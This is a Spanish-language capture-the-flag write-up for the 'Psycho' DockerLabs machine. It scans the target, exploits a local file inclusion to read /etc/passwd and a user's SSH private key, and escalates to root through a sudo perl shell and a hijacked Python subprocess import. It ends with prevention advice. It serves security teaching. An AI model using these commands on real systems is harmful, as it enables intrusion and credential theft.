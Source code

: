 
# Máquina Psycho

![inicio](https://github.com/xavis3c/Writeups-dockerlabs/blob/Recursos/inicioPsycho.png)

## Escaneo de la máquina

Comenzamos con un escaneo de puertos utilizando `nmap`:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -sV -vvv -n -Pn 172.17.0.2
```

Este escaneo nos revela que los puertos 22 (SSH) y 80 (HTTP) están abiertos.

## Enumeración del sitio web

Al acceder al puerto 80 en el navegador, encontramos una página aparentemente creada por `TLuisillo_o`, con un error en la parte inferior que dice `[!]ERROR[!]`. Esto podría indicar una vulnerabilidad.

Ejecutamos `gobuster` para buscar directorios y archivos ocultos:

```bash
gobuster dir -u "http://172.17.0.2/" -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt,py,bak,php.bak,html
```

Se encuentran dos rutas interesantes:

- `/assets` → Contiene una imagen, pero nada útil.
- `/index.php` → Parece vacío, pero podría estar vulnerable a **LFI (Local File Inclusion)**.

Probamos con `wfuzz`:

```bash
wfuzz -c -u http://172.17.0.2/index.php?FUZZ=/etc/passwd -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt --hh 2596
```

El parámetro `secret` devuelve contenido, así que probamos:

```bash
http://172.17.0.2/index.php?secret=/etc/passwd
```

¡Tenemos un LFI! Vemos los usuarios `luisillo` y `vaxei`.

## Explotando LFI para obtener SSH

Buscamos claves privadas:

```bash
http://172.17.0.2/index.php?secret=/home/vaxei/.ssh/id_rsa
```

Obtenemos la clave privada SSH de `vaxei`. La guardamos y le damos permisos adecuados:

```bash
nano id_rsa
chmod 600 id_rsa
```

Nos conectamos por SSH:

```bash
ssh -i id_rsa vaxei@172.17.0.2
```

## Escalada de privilegios a `luisillo`

Ejecutamos `sudo -l` y vemos que podemos ejecutar `perl` como `luisillo`.

Ejecutamos:

```bash
sudo -u luisillo perl -e 'exec "/bin/sh";'
```

Luego, para hacer la shell interactiva:

```bash
bash -p
```

## Escalada de privilegios a `root`

Ejecutamos `sudo -l` nuevamente y vemos que podemos ejecutar `python3`.

En `/opt/` encontramos `paw.py`, que importa `subprocess`.

Creamos un archivo malicioso `subprocess.py`:

```bash
nano subprocess.py
```

Colocamos dentro:

```python
import os
os.system("bash -p")
```

Ejecutamos `paw.py` con sudo:

```bash
sudo python3 /opt/paw.py
```

Ahora somos `root`. Verificamos con:

```bash
whoami
```

### ¿Cómo funcionó este exploit?

Cuando `paw.py` ejecuta:

```python
import subprocess
```

Python busca `subprocess.py` en el directorio actual antes que en el sistema. Como creamos nuestro propio `subprocess.py`, se ejecutó nuestro código en vez del original, dándonos una shell de root.

### ¿Cómo prevenirlo?

- No usar `sudo python3 script.py` en directorios no confiables.
- Especificar rutas absolutas en imports.
- Verificar `PYTHONPATH`.
- Usar `importlib.util` para evitar imports no deseados.

---

⚠ **Este material es solo para aprendizaje y CTFs legales. No lo uses en sistemas sin autorización.**
---

**En mi pagina web (Blog) subo las maquinas más a detalle, normalmento lo hago primero alla por quien guste puede checarlo de aquel lado tambien.** 

https://elyoxsecurity.com/category/maquinas/
